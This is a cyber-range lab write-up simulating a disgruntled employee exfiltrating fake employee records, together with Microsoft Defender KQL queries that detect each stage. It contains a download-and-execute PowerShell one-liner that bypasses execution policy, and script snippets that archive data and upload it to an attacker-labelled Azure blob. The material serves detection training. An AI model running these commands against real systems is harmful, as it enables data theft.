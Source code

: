 # Project Appendix: Simulating Data Exfiltration

This document details the technical setup used to simulate the "Data Exfiltration by a Disgruntled Employee" scenario. The core of this simulation is a single PowerShell script designed to mimic common attacker techniques.

---

### 1. The Trigger Command

The simulation was initiated on the target machine by executing a one-line command. This command downloads the main exfiltration script from a repository and immediately runs it, bypassing the local execution policy to ensure it executes.

```powershell
Invoke-WebRequest -Uri '[https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1](https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1)' -OutFile 'C:\programdata\exfiltratedata.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1
```
### 2. Analysis of the exfiltratedata.ps1 Script
The script performs a multi-stage operation to collect, stage, and exfiltrate data. Below are the key snippets that illustrate its functionality.

#### Data Collection
The script begins by creating a multi-line string containing fake, but realistic, employee PII to be saved in a CSV file.

```powershell
# Create the employee data with fake information
 $employeeData = @"
$($currentDateTime)
FirstName,LastName,SSN,PhoneNumber,Salary,DOB
Travis,Ward,294-75-2745,(703)785-1895,79976.31,1984-11-10
Paul,Berry,785-68-1220,001-875-136-8234x217,66220.38,1969-02-23
```

#### Tool Staging (Downloading 7-Zip)
Next, it downloads a legitimate, portable version of the 7-Zip utility from an external server to ensure it has the tools it needs.

```powershell
# Download 7zip
try {
    Invoke-WebRequest -Uri '[https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe](https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe)' -OutFile 'C:\ProgramData\7z2408-x64.exe'
    Log-Message "Downloaded 7zip installer to C:\ProgramData\7z2408-x64.exe"
} catch {
    Log-Message "Error downloading 7zip: $_" "ERROR"
}
```
#### Data Archiving
It then uses the newly downloaded 7-Zip to compress the CSV file into a ZIP archive, staging it for exfiltration.

```powershell
# Use 7zip to zip the temporary CSV file
try {
    & "C:\Program Files\7-Zip\7z.exe" a $zipFilePath $tempFilePath
    Write-Host "File zipped to: $zipFilePath"
    Log-Message "Zipped file to: $zipFilePath"
} catch {
    Log-Message "Error zipping file: $_" "ERROR"
}
```
#### Exfiltration to Cloud Storage
Finally, the script constructs and executes a web request to upload the ZIP archive to an attacker-controlled Azure Blob Storage account.

```powershell
# Define Azure Blob Storage variables
$storageUrl = "[https://sacyberrangedanger.blob.core.windows.net/stolencompanydata/employee-data.zip](https://sacyberrangedanger.blob.core.windows.net/stolencompanydata/employee-data.zip)"
$storageAccount = "sacyberrangedanger"
$storageKey = "CloudAccessKey-removed-for-safety-reasons"

# ... (Signature creation logic) ...

# Upload the blob using Invoke-WebRequest
try {
    Invoke-WebRequest -Uri $storageUrl -Method Put -Headers $headers -InFile $zipFilePath -UseBasicParsing
    Log-Message "Uploaded the zip file to Azure Blob Storage: $storageUrl"
} catch {
    Log-Message "Error uploading the zip file to Azure Blob Storage: $_" "ERROR"
}
```
### 3. KQL Queries Used for Detection

Below are the KQL queries used in Microsoft Defender XDR to trace the attacker's activity from the initial script creation to the final data exfiltration.

#### Query 1: Detecting Script Creation
This query was used to find evidence of the malicious script (`exfiltratedata.ps1`) being created on the target host by the user `analyst1`.

```kql
// Query to show creation of exfiltratedata.ps1 by analyst1
DeviceFileEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1"
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where FileName == "exfiltratedata.ps1" and ActionType == "FileCreated"
| project Timestamp, ActionType, FileName, FolderPath, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessCommandLine
| sort by Timestamp asc
```
#### Query 2: Identifying Data Archiving
This query looked for the creation of the specific `.zip` file that the script was designed to create, confirming that the data collection phase of the attack was successful.

```powershell
// Query to show creation of the specific ZIP file by analyst1's script activity
DeviceFileEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1" 
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where FileName == "employee-data-20250508185834.zip" and ActionType == "FileCreated" and InitiatingProcessFileName == "7z.exe"
| project Timestamp, ActionType, FileName, FolderPath, FileSize, InitiatingProcessAccountName, InitiatingProcessFileName
| sort by Timestamp asc
```
#### Query 3: Confirming Data Exfiltration
This final query searched for network connections initiated by the malicious script to a known suspicious domain, confirming that the archived data was successfully sent off the corporate network.

```powershell
DeviceNetworkEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1"
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where InitiatingProcessFileName =~ "powershell.exe" and InitiatingProcessCommandLine contains "exfiltratedata.ps1"
| where RemoteUrl contains "sacyberrangedanger.blob.core.windows.net"
| project Timestamp, ActionType, LocalIP, RemoteUrl, RemoteIP, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessCommandLine
| sort by Timestamp asc
```

